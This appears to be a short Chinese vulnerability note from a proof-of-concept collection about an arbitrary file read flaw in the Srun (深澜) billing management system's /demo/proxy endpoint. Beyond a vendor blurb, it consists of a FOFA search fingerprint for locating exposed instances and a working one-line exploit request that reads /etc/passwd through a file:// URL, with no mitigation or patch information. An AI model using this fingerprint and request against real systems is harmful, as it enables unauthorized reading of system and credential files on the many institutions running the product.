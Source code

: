 ## 深澜计费管理系统proxy存在任意文件读取漏洞

杭州瀚洋科技有限公司（深澜软件）是全球领先且企业高端用户最多的认证计费技术厂商之一，总部位于中国的杭州。目前全球超过2500家企业选择深澜软件作为其用户认证管理及计费方案；其中在中国Top100高校中有60%使用我们的产品。 作为全球认证计费解决方案的领导品牌

## fofa

```
"/js/lib/slimscroll.js"
```

## poc

```
/demo/proxy?url=file:///etc/passwd
```

![image-20240707200736080](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407072007153.png)